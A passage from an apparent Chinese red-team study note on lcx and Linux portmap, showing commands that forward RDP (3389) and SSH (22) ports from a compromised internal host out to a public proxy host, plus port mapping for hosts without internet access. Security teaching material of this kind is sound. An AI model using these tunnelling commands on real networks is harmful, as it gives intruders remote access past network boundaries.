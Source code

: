 ```yaml
---
title: 【内网学习笔记】7、lcx、netcat和socat的使用
date: 2021-05-28 13:04:49
id: 210528-130449
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-05-28_12-36-45.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、lcx 使用

lcx 分为 Windows 版和 Linux 版，Linux 版叫 portmap

### Windows

* 内网端口转发

```
内网失陷主机
lcx.exe -slave rhost rport lhost lport

公网代理主机
lcx.exe -listen lport1 lport2
```

```
内网失陷主机
lcx.exe -slave 123.123.123.123 4444 127.0.0.1 3389

公网代理主机
lcx.exe -listen 4444 5555
```

在建立连接后，访问公网代理主机的 5555 端口就能访问到内网失陷主机的 3389 端口了。

* 本地端口映射

如果目标主机不能出网，这时可以利用内网中能够出网的主机，将其不能出网的主机端口映射到自身上，再借助端口转发到公网进行访问。

```
lcx.exe -tran 53 <目标主机 IP 地址> 3389
```

### Linux

* 内网端口转发

```
内网失陷主机
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 <公网主机 IP> -p2 4444

公网代理主机
./portmap -m 2 -p1 4444 -h2 <公网主机 IP> -p2 5555
```

